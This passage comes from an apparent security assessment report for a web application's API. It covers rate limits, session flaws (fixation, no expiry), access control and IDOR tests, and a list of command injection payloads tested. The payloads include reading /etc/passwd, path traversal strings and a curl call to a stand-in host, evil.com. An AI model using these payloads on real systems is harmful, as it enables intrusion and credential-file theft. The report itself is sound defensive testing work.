 **Current Limits:**
- Login attempts: 5 per 5 minutes
- Registration: 3 per hour  
- TOTP verification: 3 per 5 minutes

#### Session Management
**Test Coverage:** Session fixation, concurrent sessions, token security

**Findings:**
- Secure token generation using `token_urlsafe(32)` ✅
- Session fixation vulnerability detected
- No session expiration mechanism
- No concurrent session handling

### 3. Broken Access Control

#### Unauthorized Access Testing
**Test Coverage:** Access control verification across protected endpoints

**Findings:**
- All protected endpoints require authentication ✅
- Proper 401/403 responses for unauthorized access ✅
- No authentication bypass vulnerabilities detected ✅

**Endpoints Tested:**
- `/api/files/` - Files listing (Protected ✅)
- `/api/files/upload` - File upload (Protected ✅)
- `/api/user/profile` - User profile (Protected ✅)

#### Insecure Direct Object Reference (IDOR) Testing
**Test Coverage:** Object access control verification

**Findings:**
- All unauthorized object access properly denied ✅
- UUID format validation working ✅
- Path manipulation attempts blocked ✅

**Test Cases:**
- Sequential ID attempts (1, 2, 3, 999)
- UUID manipulation attempts
- Path traversal in object references (../admin, ../../etc/passwd)

### 4. Injection Vulnerabilities

#### Command Injection Testing
**Test Coverage:** 8 command injection payloads across multiple contexts

**Findings:**
- No command execution achieved ✅
- Direct filesystem operations used instead of shell commands ✅
- Path sanitization properly implemented ✅

**Payloads Tested:**
```bash
; ls -la
| cat /etc/passwd  
&& whoami
$(cat /etc/passwd)
`id`
; curl http://evil.com
```
